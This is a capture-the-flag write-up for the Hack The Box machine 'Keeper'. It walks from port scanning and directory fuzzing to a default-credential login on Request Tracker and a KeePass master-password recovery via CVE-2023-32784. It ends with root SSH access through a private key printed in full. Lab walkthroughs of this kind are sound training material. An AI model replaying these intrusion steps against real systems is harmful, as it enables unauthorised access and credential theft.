










| Target Property  | Details                   |
| :--------------- | :------------------------ |
| **Machine Name** | Keeper                    |
| **Platform**     | Hack The Box (Easy Linux) |
| **Server IP**    | 10.129.227.248            |
| **Open Ports**   | 22, 80                    |
| **Date Solved**  | 2026/11/8                 |


[Hack The Box - Keeper](https://app.hackthebox.com/machines/Keeper)


```
┌──(chako㉿kali)-[~/writeup/HTB/Easy/Linux/3-Keeper]
└─$ nmap -p- -vvv --min-rate 10000 keeper.htb -oN nmap/keeper_allport --open 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-08 15:34 -0500
mass_dns: Using DNS server 192.168.4.1
mass_dns: Using DNS server fd0c:6c7b:e14c:1::1
Initiating Parallel DNS resolution of 1 host. at 15:34
Completed Parallel DNS resolution of 1 host. at 15:34, 0.00s elapsed
Initiating Ping Scan at 15:34
Scanning keeper.htb (10.129.229.41) [4 ports]
Completed Ping Scan at 15:34, 0.12s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:34
Completed Parallel DNS resolution of 1 host. at 15:34, 0.00s elapsed
Initiating SYN Stealth Scan at 15:34
Scanning keeper.htb (10.129.229.41) [65535 ports]
Discovered open port 80/tcp on 10.129.229.41
Discovered open port 22/tcp on 10.129.229.41
Completed SYN Stealth Scan at 15:34, 6.85s elapsed (65535 total ports)
Nmap scan report for keeper.htb (10.129.229.41)
Host is up, received reset ttl 63 (0.085s latency).
Scanned at 2026-11-08 15:34:29 EST for 7s
Not shown: 65532 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 7.07 seconds
           Raw packets sent: 66853 (2.942MB) | Rcvd: 65734 (2.629MB)


┌──(chako㉿kali)-[~/writeup/HTB/Easy/Linux/3-Keeper]
└─$ nmap -p 22,80 -sCV keeper.htb -oN nmap/keeper.htb
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-08 15:36 -0500
Nmap scan report for keeper.htb (10.129.229.41)
Host is up (0.080s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)                   | ssh-hostkey:                                                                                      |   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)                                     |_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)                                   80/tcp open  http    nginx 1.18.0 (Ubuntu)                                                          |_http-server-header: nginx/1.18.0 (Ubuntu)                                                         |_http-title: Site doesn't have a title (text/html).                                                Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                                                                                                                 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .      Nmap done: 1 IP address (1 host up) scanned in 9.23 seconds    
```


when we view  `http://keeper.htb` has the link to the ticket system `http://tickets.keeper.htb`



add that into hosts files
```
10.129.229.41 keeper.htb tickets.keeper.htb
```


we also  use ffuf to discover serval folders 
```
┌──(chako㉿kali)-[~]
└─$ ffuf -c -w ~/tools/wordlist/SecLists/Discovery/Web-Content/raft-medium-directories.txt -u "http://tickets.keeper.htb/FUZZ" -t 200  -mc 200                                                    
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://tickets.keeper.htb/FUZZ
 :: Wordlist         : FUZZ: /home/chako/tools/wordlist/SecLists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200
________________________________________________

m                       [Status: 200, Size: 2309, Words: 247, Lines: 112, Duration: 1884ms]
rte                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1882ms]
rt                      [Status: 200, Size: 4235, Words: 407, Lines: 154, Duration: 1735ms]
rtl                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1880ms]
rte-snippets            [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 2337ms]
rtv                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 2120ms]
rtf                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 2132ms]
rtm                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1689ms]
rti                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1556ms]
rtr                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 1552ms]
rtc                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 2479ms]
rtq                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 2469ms]
rtb                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 2492ms]
rts                     [Status: 200, Size: 95, Words: 17, Lines: 1, Duration: 2452ms]
:: Progress: [29999/29999] :: Job [1/1] :: 89 req/sec :: Duration: [0:05:06] :: Errors: 1 ::

```


`http://tickets.keeper.htb/m` it seems like mobile web



`http://tickets.keeper.htb/rt`  the ticket system 




after google , and we know RT 's default login credential 
The default credentials for Best Practical Request Tracker (RT) version 4.4.4 are:
• Username: root
• Password: password

we can login to rt web system



I found a user ticket related to the crash dump of the keeppass program and saved the file in user home folder



click the username on that page we can view the user profile page and there is an edit page



we found a user password in the "Comments about this user" section



Try to use the login credential found in the comment section and we are able to SSH login 
(`lnorgaard / Welcome2023!`) the user is not part of sudoer
```
┌──(chako㉿kali)-[~]
└─$ ssh lnorgaard@keeper.htb                                                                        lnorgaard@keeper.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ 
lnorgaard@keeper:~$ cat user.txt 
4b6aa95361180929d81764b3205b61e5
lnorgaard@keeper:~$ 

lnorgaard@keeper:~$ sudo -l
[sudo] password for lnorgaard: 
Sorry, user lnorgaard may not run sudo on keeper.
lnorgaard@keeper:~$ groups
lnorgaard


```


we can upload linpeas and run it.
```
lnorgaard@keeper:~$ chmod +x linpeas_2025.sh 
lnorgaard@keeper:~$ ./linpeas_2025.sh 
```

we found a zip file in user home folder. and lets download it an unzip 
```
┌──(chako㉿kali)-[~/writeup/HTB/Easy/Linux/3-Keeper/item]
└─$ unzip RT30000.zip                                                                               Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx         

```


[CVE-2023-32784](https://www.cve.org/CVERecord?id=CVE-2023-32784)

```
In KeePass 2.x before 2.54, it is possible to recover the cleartext master password from a memory dump, even when a workspace is locked or no longer running. The memory dump can be a KeePass process dump, swap file (pagefile.sys), hibernation file (hiberfil.sys), or RAM dump of the entire system. The first character cannot be recovered. In 2.54, there is different API usage and/or random string insertion for mitigation.
```

we can try to use this [exploit](https://github.com/z-jxy/keepass_dump) to dump the password
```
┌──(chako㉿kali)-[~/writeup/HTB/Easy/Linux/3-Keeper/item]
└─$ git clone https://github.com/z-jxy/keepass_dump.git 

┌──(chako㉿kali)-[~/writeup/HTB/Easy/Linux/3-Keeper/item]
└─$ cp KeePassDumpFull.dmp  keepass_dump/                                                           ┌──(chako㉿kali)-[~/writeup/HTB/Easy/Linux/3-Keeper/item]
└─$ cd keepass_dump/          

┌──(chako㉿kali)-[~/writeup/HTB/Easy/Linux/3-Keeper/item/keepass_dump]
└─$ python keepass_dump.py -f ./KeePassDumpFull.dmp                                                                                                                                                                                                
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde


```


lets google the password showed in the exploit PoC and we got  `Rødgrød med fløde`



after tried serval possible password , the password `rødgrød med fløde`  finally works 
```

┌──(chako㉿kali)-[~/writeup/HTB/Easy/Linux/3-Keeper/item]
└─$ kpcli --kdb passcodes.kdbx                                                                      Provide the master password: *************************
Couldn't load the file passcodes.kdbx

Error(s) from File::KeePass:
The database key appears invalid or else the database is corrupt.


┌──(chako㉿kali)-[~/writeup/HTB/Easy/Linux/3-Keeper/item]
└─$ echo 'rødgrød med fløde' > pass.txt && kpcli --kdb=passcodes.kdbx --pwfile=pass.txt; rm pass.txt
KeePass CLI (kpcli) v4.1.3 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> 


```





in Keepass database
```
kpcli:/> ls
=== Groups ===
passcodes/
kpcli:/> ls passcodes/
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
kpcli:/> 

```


we got root ssh key
```
kpcli:/> show  passcodes/Network/keeper.htb\ (Ticketing\ Server)

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
       LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
       Private-Lines: 14
       AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
       oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
       kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
       f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
       VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
       UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
       OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
       in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
       SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
       09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
       xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
       AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
       AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
       NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0

kpcli:/> 

```





copy the key and convert it from `putty` format to `openssh` format. 
and use that key to login to the server
```
┌──(chako㉿kali)-[~/writeup/HTB/Easy/Linux/3-Keeper/item]
└─$ cat ./putty_key                                                                                                                                                                                                                                
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0

┌──(chako㉿kali)-[~/writeup/HTB/Easy/Linux/3-Keeper/item]
└─$ puttygen putty_key -O private-openssh -o root_key                                                                                                                                                                                              

┌──(chako㉿kali)-[~/writeup/HTB/Easy/Linux/3-Keeper/item]
└─$ ssh -i root_key root@keeper.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# 

root@keeper:~# cat root.txt 
f8a77b5f283aa952de9226a7c7272f96
root@keeper:~# 


```


